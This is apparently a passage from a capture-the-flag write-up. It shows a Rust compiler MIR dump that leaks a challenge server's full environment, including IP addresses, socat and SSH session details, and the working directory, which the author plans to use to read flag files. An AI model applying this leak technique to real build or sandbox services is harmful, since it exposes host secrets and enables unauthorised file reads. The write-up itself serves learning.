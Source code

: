 ```console
Body { basic_blocks: BasicBlocks { basic_blocks: [BasicBlockData { statements: [StorageLive(_1), StorageLive(_2), _2 = const b"CARGO_HOME=/home/user/.cargo\x00DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/0/bus\x00HOME=/home/user\x00LANG=C.UTF-8\x00LD_LIBRARY_PATH=/home/user/.rustup/toolchains/nightly-2023-11-03-x86_64-unknown-linux-gnu/lib\x00LESSCLOSE=/usr/bin/lesspipe %s %s\x00LESSOPEN=| /usr/bin/lesspipe %s\x00LOGNAME=user\x00LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.webp=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:\x00MAIL=/var/mail/user\x00MOTD_SHOWN=pam\x00OLDPWD=/home/user\x00PATH=/home/user/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin\x00PWD=/home/user/task\x00RUSTUP_HOME=/home/user/.rustup\x00RUSTUP_TOOLCHAIN=nightly-2023-11-03-x86_64-unknown-linux-gnu\x00RUST_RECURSION_COUNT=1\x00SHELL=/bin/sh\x00SHLVL=4\x00SOCAT_PEERADDR=202.120.7.12\x00SOCAT_PEERPORT=49322\x00SOCAT_PID=100630\x00SOCAT_PPID=96861\x00SOCAT_SOCKADDR=192.168.1.13\x00SOCAT_SOCKPORT=10001\x00SOCAT_VERSION=1.7.4.1\x00SSH_CLIENT=202.120.7.12 43540 22\x00SSH_CONNECTION=202.120.7.12 43540 192.168.1.13 22\x00SSH_TTY=/dev/pts/0\x00TERM=screen\x00TERM_PROGRAM=tmux\x00TERM_PROGRAM_VERSION=3.2a\x00TMUX=/tmp/tmux-1000/default,94940,0\x00TMUX_PANE=%0\x00USER=user\x00XDG_DATA_DIRS=/usr/local/share:/usr/share:/var/lib/snapd/desktop\x00XDG_RUNTIME_DIR=/run/user/0\x00XDG_SESSION_CLASS=user\x00XDG_SESSION_ID=2299\x00XDG_SESSION_TYPE=tty\x00_=/home/user/.cargo/bin/rustup\x00", _1 = &(*_2), _0 = move _1 as &[u8] (PointerCoercion(Unsize)), StorageDead(_2), StorageDead(_1)], terminator: Some(Terminator { source_info: SourceInfo { span: <main.rs>:1:1: 1:57 (#0), scope: scope[0] }, kind: return }), is_cleanup: false }], cache: Cache { predecessors: OnceCell(<uninit>), switch_sources: OnceCell(<uninit>), is_cyclic: OnceCell(<uninit>), reverse_postorder: OnceCell(<uninit>), dominators: OnceCell(Dominators { kind: Path }) } }, phase: Runtime(PostCleanup), pass_count: 2, source: MirSource { instance: Item(DefId(0:3 ~ rust_out[5675]::foo)), promoted: None }, source_scopes: [SourceScopeData { span: <main.rs>:1:1: 1:57 (#0), parent_scope: None, inlined: None, inlined_parent_scope: None, local_data: Set(SourceScopeLocalData { lint_root: HirId(DefId(0:3 ~ rust_out[5675]::foo).0), safety: Safe }) }], coroutine: None, local_decls: [LocalDecl { mutability: Mut, local_info: Clear, ty: &ReErased [u8], user_ty: None, source_info: SourceInfo { span: <main.rs>:1:12: 1:17 (#0), scope: scope[0] } }, LocalDecl { mutability: Mut, local_info: Clear, ty: &ReErased [u8; 2696_usize], user_ty: None, source_info: SourceInfo { span: <main.rs>:1:20: 1:56 (#4), scope: scope[0] } }, LocalDecl { mutability: Not, local_info: Clear, ty: &ReErased [u8; 2696_usize], user_ty: None, source_info: SourceInfo { span: <main.rs>:1:20: 1:56 (#4), scope: scope[0] } }], user_type_annotations: [], arg_count: 0, spread_arg: None, var_debug_info: [], span: <main.rs>:1:1: 1:57 (#0), required_consts: [], is_polymorphic: false, injection_phase: None, tainted_by_errors: None, function_coverage_info: None }
```

Awesome, we are able to get the working directory this way! Specifically, in the
output, we see `PWD=/home/user/task`. We can now just put this together with the
`flag*.txt` file names, to get ourselves the flags.
